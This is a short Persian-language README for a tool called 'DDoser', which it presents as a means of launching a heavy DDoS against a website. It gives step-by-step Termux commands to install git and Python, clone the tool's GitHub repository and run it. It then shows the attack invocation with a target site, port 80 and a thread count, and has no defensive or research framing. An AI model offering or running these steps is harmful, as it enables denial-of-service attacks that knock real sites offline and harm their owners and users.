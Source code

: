 # DDoser
دیداس سنگین به سایت
ابتدا وارد ترموکس شین و دستورات زیر بزنین
 
apt update 

apt upgrade -y

pkg install git -y

pkg install python -y

git clone https://github.com/AliCybeRR/DDoser

cd DDoser 

ls

chmod +x AliCybeRR.py

ls

python AliCybeRR.py

خب حالا باید اینجوری بزنین 
python AliCybeRR.py -s سایت -p 80 t-200 
میتونید پورت و توربو هم تغییر بدین

